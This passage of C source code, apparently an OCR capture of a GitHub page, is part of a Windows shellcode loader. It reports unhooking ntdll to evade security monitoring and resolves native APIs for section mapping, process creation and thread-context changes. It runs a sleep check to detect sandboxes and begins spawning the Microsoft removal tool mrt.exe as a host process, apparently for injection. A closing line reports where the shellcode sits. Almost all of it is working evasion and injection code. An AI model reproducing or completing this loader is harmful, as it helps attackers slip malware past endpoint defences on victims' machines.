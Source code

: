 ```
	{
		printf("[+] Unhooked\n");
	}
	else
	{
		printf("[-] Failed to unhook\n");
	}

	// Get NtAPIs from clean NtDLL
	NtCreateSection ntCreateSection = (NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
	NtMapViewOfSection ntMapViewOfSection = (NtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
	//NtUnmapViewOfSection ntUnmapViewOfSection = (NtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
	NtCreateUserProcess ntCreateUserProcess = (NtCreateUserProcess)GetProcAddress(hNtdll, "NtCreateUserProcess");
	NtResumeProcess ntResumeProcess = (NtResumeProcess)GetProcAddress(hNtdll, "NtResumeProcess");
	NtResumeThread ntResumeThread = (NtResumeThread)GetProcAddress(hNtdll, "NtResumeThread");
	NtSetContextThread ntSetContextThread = (NtSetContextThread)GetProcAddress(hNtdll, "NtSetContextThread");
	NtGetContextThread ntGetContextThread = (NtGetContextThread)GetProcAddress(hNtdll, "NtGetContextThread");
	NtDelayExecution ntDelayExecution = (NtDelayExecution)GetProcAddress(hNtdll, "NtDelayExecution");

	/* Delay Execution */

	// Converting minutes to milliseconds
	float ftMinutes = 0.1;
	DWORD               dwMilliSeconds = ftMinutes * 60000;
	LARGE_INTEGER       DelayInterval = { 0 };
	LONGLONG            Delay = NULL;
	NTSTATUS            STATUS = NULL;
	DWORD               _T0 = NULL,
		_T1 = NULL;

	// Converting from milliseconds to the 100-nanosecond - negative time interval
	Delay = dwMilliSeconds * 10000;
	DelayInterval.QuadPart = -Delay;

	_T0 = GetTickCount64();

	// Sleeping for 'dwMilliSeconds' ms
	if ((STATUS = ntDelayExecution(FALSE, &DelayInterval)) != 0x00 && STATUS != STATUS_TIMEOUT) {
		printf("[!] NtDelayExecution Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	_T1 = GetTickCount64();

	// Slept for at least 'dwMilliSeconds' ms, then 'DelayExecutionVia_NtDE' succeeded, otherwize it failed
	if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
		return FALSE;


	/* LOADER */

	// NtCreateProcess Definition

	// Path to the image file from which the process will be created
	UNICODE_STRING NtImagePath, Params, ImagePath;
	RtlInitUnicodeString(&ImagePath, (PWSTR)L"C:\\Windows\\System32\\mrt.exe");
```

[+]: Shellcode located at c7160
